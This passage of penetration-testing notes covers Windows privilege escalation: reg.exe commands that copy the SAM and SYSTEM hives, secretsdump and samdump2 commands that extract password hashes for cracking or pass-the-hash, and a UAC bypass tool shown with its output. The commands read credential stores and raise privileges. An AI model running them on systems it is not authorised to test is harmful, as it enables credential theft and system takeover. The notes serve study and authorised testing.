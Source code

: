 ## Extracting a Copy of the SAM and SYSTEM Files Using reg.exe
---

After having gained the Administrator access we cam dump SAM and SYSTEM using reg.exe:

```powershell
reg save hklm\sam C:\temp\SAM
reg save hklm\system C:\temp\SYSTEM
```

Once copied back on the Kali machine the two files we can dump them with

```shell
impacket-secretsdump -sam SAM -system SYSTEM LOCAL
```

or

```shell
samdump2 SYSTEM SAM
```

This will give us a list of userame:hash that can be cracked using hashcat's NTLM cracking or used for a Pass The Hash attack. Other ways to perform a SAM and SYSTEM credential dumping are explained [here](https://juggernaut-sec.com/dumping-credentials-sam-file-hashes/). Many scenarios about dumping SAM ad SYSTEM can be found [here](https://www.hackingarticles.in/credential-dumping-sam/).

## UAC Bypass
---

Due to unsafe .Net Deserialization we can exploit the system using [UAC Bypass](https://github.com/CsEnox/EventViewer-UACBypass).

```powershell
PS C:\Windows\Tasks> Import-Module .\Invoke-EventViewer.ps1

PS C:\Windows\Tasks> Invoke-EventViewer 
[-] Usage: Invoke-EventViewer commandhere
Example: Invoke-EventViewer cmd.exe

PS C:\Windows\Tasks> Invoke-EventViewer cmd.exe
[+] Running
[1] Crafting Payload
[2] Writing Payload
[+] EventViewer Folder exists
[3] Finally, invoking eventvwr
```

### Additional Tips for Windows PE

Always check installed programs under `C:\Program Files(x86)` or under folders as `Downloads` or `Documents`. We can find exploitable programs (search the program name with searchsploit) or interesting files like Keypass vaults or hashed credentials to be cracked. Additioally, if we find some non-standard executable program that requires some sort of credentials for it, just do a `strings fileame.exe` because the credentials may be hardcoded into it.